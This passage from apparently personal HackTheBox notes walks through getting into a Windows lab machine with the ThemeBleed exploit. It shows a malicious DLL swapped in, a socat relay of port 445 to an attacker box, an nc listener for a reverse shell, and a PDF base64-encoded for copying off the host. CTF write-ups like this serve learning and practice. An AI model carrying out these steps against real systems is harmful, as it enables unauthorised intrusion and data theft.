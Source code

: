 Before that -> replace stage_3 (which just executes calc.exe) with our malicious VerifyThemeVersion.dll -> rename VerifyThemeVersion.dll to stage_3
![[HackTheBox/Windows/attachments/Pasted image 20250523232536.png]]

Now start up the ThemeBleed server 
```
.\ThemeBleed.exe server
```
![[HackTheBox/Windows/attachments/Pasted image 20250523232803.png]]

Now copy exploit.theme to kali. 

LASTLY 
#### Socat tunnel to forward to windows attacc box

Ensure VMs are in a network where they can talk. Windows attacc IP: 192.168.58.230

This will forward any traffic Kali is receiving on 445 over to Windows box.
```
sudo socat TCP-LISTEN:445,fork,reuseaddr TCP:192.168.58.230:445
```

![[HackTheBox/Windows/attachments/Pasted image 20250523233232.png]]

#### NC Listener 
To catch reverse shell 
```
nc -lvnp 9001
```
![[HackTheBox/Windows/attachments/Pasted image 20250523233324.png]]

#### Upload the exploit.theme to web app

![[HackTheBox/Windows/attachments/Pasted image 20250523233415.png]]

We got our shelllll
![[HackTheBox/Windows/attachments/Pasted image 20250523233643.png]]
❗initial access as sam.emerson❗
### Enumerate for Priv Esc 

Discover a PDF file in the user's docs

![[HackTheBox/Windows/attachments/Pasted image 20250523233834.png]]

Download PDF by converting to base64 and then copy and pasting it to our box.

#### Convert PDF to Base64
```
$b64 = [Convert]::ToBase64String([IO.FILE]::ReadAllBytes("CVE-2023-28252_Summary.pdf")
```

Copy the outputted base64
